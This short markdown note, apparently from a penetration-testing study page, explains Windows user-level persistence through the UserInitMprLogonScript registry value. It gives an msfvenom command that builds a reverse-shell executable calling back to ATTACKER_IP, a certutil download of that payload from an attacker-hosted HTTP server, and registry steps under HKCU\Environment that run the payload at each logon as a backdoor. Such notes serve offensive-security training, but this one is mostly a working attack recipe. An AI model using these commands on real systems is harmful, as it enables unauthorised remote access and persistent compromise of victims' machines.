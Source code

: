 #### Logon Scripts via `UserInitMprLogonScript`
One of the things `userinit.exe` does while loading your user profile is to check for an environment variable called `UserInitMprLogonScript`. This is user-specific persistence method, this works by ***assigning a logon script to a user*** that will run when logging into the machine.

#### Create a Reverse Shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4453 -f exe -o revshell.exe
```

#### Transfer the Shell 
```bash
python3 -m http.server
```

```cmd
certutil -urlcache -split -f http://<attacker_ip>:8000/revshell.exe
move revshell.exe C:\Windows
```

#### Create an Environment Variable for a User
1. Go to: `HKCU\Environment` in registry. 
2. Use the `UserInitMprLogonScript` entry to point to our payload.
![[Logon script.png]]

**This registry key has no equivalent in HKLM, making your backdoor apply to the current user only.**

**Sign out of your current session and log in again.**